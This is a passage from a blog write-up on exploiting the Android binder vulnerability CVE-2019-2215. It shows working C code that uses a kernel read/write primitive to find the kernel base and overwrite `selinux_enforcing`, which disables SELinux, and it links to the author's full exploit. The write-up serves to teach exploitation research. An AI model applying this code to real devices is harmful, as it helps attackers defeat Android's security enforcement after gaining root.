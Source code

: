 **Disable SELinux enforcement**

Now that we got root privileges we need to disable SELinux enforcement, that's achivable by overwriting a global `int` called `selinux_enforcing` to 0, but we need the kernel base to know where the kernel starts then we can just find `selinux_enforcing` by using the relative offset (which may change between devices and versions).

```c
void disable_selinux_enforcing() {
    printf("\t[+] reading init_nsproxy pointer from task_struct\n");
    init_nsproxy_kptr = kread64(task_init_nsproxy_kptr);

    kbase = init_nsproxy_kptr - SYMBOL_OFFSET_INIT_NSPROXY;
    printf("\t[+] kernel base: 0x%lx\n", kbase);

    uint64_t selinux_enforcing_kptr = kbase + SYMBOL_OFFSET_SELINUX_ENFORCING;
    int ret = kread32(selinux_enforcing_kptr);
    if( ret && ret != -1 ) {
        printf("\t[+] SELinux enforcing is enabled\n");
        if( !kwrite32(selinux_enforcing_kptr, 0x0) ) {
            printf("\t[+] successfully disabled SELinux enforcing\n");
        }
    } else if(ret == 0) {
        printf("\t[+] SELinux enforcing is disabled\n");
    }
}
```

**Conlusion**

Now that we got stable arbitrary kernel r/w we can just read the `cred` struct pointer from `task_struct`, and calculate kernel base address, and from there we can overwrite `selinux_enforcing` to also disable SELinux enforcing.

You can find my exploit implementation [here](https://github.com/cutesmilee/cutesmilee.github.io/blob/main/code/cve-2019-2215-exploit.c).<br>

**Credits**

Thanks to [HackSysTeam](https://twitter.com/HackSysTeam) for the android kernel exploitation [workshop](https://cloudfuzz.github.io/android-kernel-exploitation/), [SpecterDev](https://twitter.com/SpecterDev) for his [writeup](https://dayzerosec.com/blog/2019/11/07/analyzing-androids-cve-2019-2215-dev-binder-uaf.html) about the same vulnerability, and [Maddie Stone](https://twitter.com/maddiestone) for the original [writeup](https://googleprojectzero.blogspot.com/2019/11/bad-binder-android-in-wild-exploit.html).
